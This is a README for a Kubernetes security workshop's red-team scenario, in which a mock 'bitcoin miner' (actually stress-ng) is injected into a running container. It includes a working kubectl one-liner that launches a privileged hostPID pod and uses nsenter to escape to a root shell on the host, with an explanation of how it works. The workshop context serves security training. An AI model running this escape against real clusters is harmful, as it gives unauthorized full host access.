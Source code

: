 # Bitcoint injector

For Scenario 3, the Red team will modify the running container to inject their bitcoinero binary into the existing container.

This directory has the files to support this:

* moneymomeymoney - This is the "bitcoin miner" which is actually stress-ng
* run-bitcoin-injector.sh - This is the script which is run inside the insecure-app container to kick-off the process.  
* inject-image.sh - Performs the image pull, modification and push

## Black magic behind the script

Using a [neat trick from Twitter](https://x.com/mauilion/status/1129468485480751104), let's attempt to deploy a container that gives us full host access:

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see "hostPID": true, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different mount namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host mount namespace! The result is similar to doing a HostPath mount and chroot-ing into it, but this works at a lower level, breaking down the mount namespace isolation completely. The privileged security context is necessary to prevent a permissions error accessing /proc/1/ns/mnt.

## Testing of this script

To test this, there was a lot of back and forth testing.  Here are some frequest commands I ran
```
az acr repository delete -n $ACR_NAME --image insecure-app:latest -y
az acr import -n $ACR_NAME --source docker.io/lastcoolnameleft/insecure-app:latest --image insecure-app:latest
kubectl delete deployment insecure-app
kubectl apply -k ./workshop/manifests
scp workshop/bitcoin-injector/inject-image.sh lcnl:lastcoolnameleft.com/mini
scp workshop/bitcoin-injector/run-bitcoin-injector.sh lcnl:lastcoolnameleft.com/mini
```